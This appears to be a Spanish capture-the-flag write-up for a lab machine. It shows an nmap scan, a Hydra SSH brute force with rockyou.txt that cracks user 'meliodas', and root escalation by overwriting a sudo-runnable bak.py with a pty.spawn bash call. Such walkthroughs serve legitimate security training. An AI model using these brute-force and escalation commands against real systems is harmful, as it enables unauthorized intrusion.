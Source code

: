## Escaneo de puertos

```bash
nmap -sV -O ip
```

![image](1.png)


Vemos que tiene un servicio http y entramos en la pagina y encontramos lo siguiente

![image](2.png)

Vemos que hay un nombre de usuario que se llama `meliodas` y como tenemos un servicio `ssh` nos intentaremos conectar mediante `ssh` al usuario `meliodas` para ello le haremos fuerza bruta con hydra

## Hydra

Ahora le haremos fuerza bruta con hydra para ver si podemos conseguir la contraseña

```bash
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://10.10.156.201 -t 4
```

-l: para especificar el nombre de un usuario
-P: para un diccionario de contraseña
-t: los hilos que quiere que se ejecuten a la vez

Una vez terminado el hydra hemos encontrado la contraseña que es `iloveyou1`

![image](3.png)

Ahora nos intentaremos conectar por ssh

## SSH

Efectivamente tenemos acceso a SSH de `meliodas`

![image](4.png)

Una vez dentro hacemos `ls` y nos encontramos dos archivos uno que se llama `bak.py` y otro que se llama `user.txt` y le hacemos `cat` al `user.txt` y encontramos la primera flag

![image](5.png)

## Escalada de privilegios

1. Eliminamos el archivo protegido (`bak.py`). `rm bak.py`
2.  Creamos un nuevo `bak.py` con un intento fallido de ejecutar un comando en Python.
```bash
echo "python -c 'import pty;pty.spawn("/bin/bash")'" > bak.py
```
3. Corregir el error escribiendo correctamente el código Python:    
```python
`import pty; pty.spawn("/bin/bash")`    
```

Este comando invoca una shell interactiva (`/bin/bash`).
4.  Ejecutar el script con `sudo`, obteniendo una shell como root.

![image](6.png)
